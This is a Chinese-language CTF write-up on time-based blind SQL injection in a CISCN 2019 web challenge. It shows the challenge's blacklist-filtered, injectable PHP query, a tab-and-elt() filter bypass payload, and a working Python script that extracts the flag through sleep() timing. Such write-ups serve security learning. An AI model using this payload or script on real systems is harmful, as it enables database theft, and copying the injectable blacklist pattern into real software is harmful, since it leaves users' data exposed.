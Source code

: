 ### SQL延时注入学习
这里借助一道ciscn2019华北半决赛的web题（day2web1），学习了一下SQL延时注入。（学习了一下北邮大佬的payload）

题目复现地址：http://web43.buuoj.cn/

北邮的payload:https://www.xd10086.com/posts/7008047528314442902/

#### 解题过程
题目只给了一个输入框，测试发现单引号没过滤，and，union，空格等都过滤了。测试过程很枯燥，干脆直接扔出关键代码。

```php
function safe($sql){
    #过滤的内容
    $blackList = array(' ','||','#','-',';','&','+','or','and','`','"','insert','group','limit','update','delete','*','into','union','load_file','outfile','./');
    foreach($blackList as $blackitem){
        if(stripos($sql,$blackitem)){
            return False;
        }
    }
    return True;
}
#为了凸显主要部分，代码做了删减
mysql_select_db("ctf",$db);
if(safe($id)){
    #只显示一行
    $query = mysql_query("SELECT content from passage WHERE id = ${id} limit 0,1");
    if($query){
        $result = mysql_fetch_array($query);
        if($result){
            echo $result['content'];
        }else{
            echo "Error Occured When Fetch Result.";
        }
    }else{
    	var_dump($query);
    }
}else{
    die("SQL Injection Checked.");
}
```

可以看出，没有过滤括号和select，因此可以使用一些函数，比如sleep。而且尽管过滤了空格，但是没有过滤tab，因此可以使用\t代替空格绕过对空格的过滤。

这里可以借助延时注入来绕过限制得到flag。
##### elt函数介绍
这里将借助elt函数来绕过。elt函数的原型为：

elt(n,str1,str2,str3)

该函数用于选取参数中第n个字符串，如果n是1，则结果是str1。但是如果是0，后面的参数不管是需要执行一个函数，或者直接是一个字符串，都不会执行，直接返回NULL。这个特性非常重要，接下来将借助该函数进行延时注入。下面将给出例子。

表结构
![表结构](https://markdown-1255584210.cos.ap-chengdu.myqcloud.com/sql_inject/users_table.png)
正常使用时
![正常使用](https://markdown-1255584210.cos.ap-chengdu.myqcloud.com/sql_inject/elt.png)
时间注入
![时间注入](https://markdown-1255584210.cos.ap-chengdu.myqcloud.com/sql_inject/timeinject.png)
第一个延时了，第二个直接返回NULL而没有延时。


#### 构造payload
可以构造如下payload
```txt
id=elt(left((select	flag	from	ctf),n)='xxx',sleep(1))
其中n代表选取了几个字符，xxx代表猜到的字符是什么。
```
#### 编写exp
借用了一下北邮大佬的exp，用Python2运行
```python
import requests
import time
url = "http://web43.buuoj.cn/index.php"
flag = ''
while True:
    for i in range(128):
        ss = time.time()
        data = {
            'id':'''ELT(left((select    flag    from    ctf),{})='{}{}',SLEEP(1))'''.format(len(flag)+1,flag, chr(i))
        }
        #print data
        requests.post(url,data=data)
        if time.time()-ss>=0.5:
            flag += chr(i)
            print flag
            break
```
>复现平台没有waf的话直接跑就行，有waf就自己搭一个试试吧。